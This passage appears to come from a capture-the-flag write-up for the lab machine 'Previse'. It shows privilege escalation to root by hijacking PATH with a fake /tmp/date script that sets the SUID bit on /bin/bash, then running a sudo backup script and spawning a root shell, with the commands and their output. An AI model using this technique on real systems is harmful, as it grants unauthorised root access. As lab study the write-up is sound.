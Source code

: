 To do this we create our own custom version of `date` first in the `/tmp` folder.

`/tmp/date`
```bash
#!/bin/bash

chmod +s /bin/bash
```

We mark it as executable and adjust the PATH so our `date` gets called first. With everything set we can now run the script with sudo.

```
m4lwhere@previse:~$ chmod +x /tmp/date
m4lwhere@previse:~$ export PATH=/tmp:$PATH
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

After running the script we can confirm bash has the suid bit set.

```
m4lwhere@previse:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

This let's us drop quickly into a root shell and add the root flag to our collection.

```
m4lwhere@previse:~$ bash -p
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
```

```
bash-4.4# wc -c /root/root.txt
33 /root/root.txt
```
